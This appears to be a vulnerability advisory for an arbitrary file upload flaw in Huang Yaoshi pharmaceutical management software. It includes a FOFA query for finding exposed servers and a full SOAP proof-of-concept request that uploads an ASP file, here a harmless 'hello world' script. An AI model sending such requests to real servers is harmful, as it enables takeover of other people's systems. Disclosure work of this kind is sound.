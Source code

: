 ## fofa
```
body="XSDService.asmx"
```

## product

 Huang Yaoshi Pharmaceutical Management Software

## Vendor of Product

https://product.11467.com/info/2149952.htm

## VERSION

 Huang Yaoshi Pharmaceutical Management Software <= 16.0

## Vulnerability Type

File Upload

## Description
"Huang Yaoshi" pharmaceutical management software UploadFile has arbitrary file upload vulnerability. Attackers can upload arbitrary files and gain server privileges



## POC：
```
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/UploadFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFile xmlns="http://tempuri.org/">
      <filePath></filePath>
      <fileName>1.asp</fileName>
      <buffer>PCUgcmVzcG9uc2Uud3JpdGUoImhlbGxvIHdvcmxkIiklPg==</buffer>
      <Offset>1111</Offset>
    </UploadFile>
  </soap:Body>
</soap:Envelope>
```
![image](https://github.com/user-attachments/assets/2a0bd71d-3282-4c6d-8991-b5d0414a02ef)

Then you can find the uploaded file in the following directory of the website: /Upload2015/1.asp
![image](https://github.com/user-attachments/assets/023c6bdf-9b77-4997-bc2c-df016c5a3861)






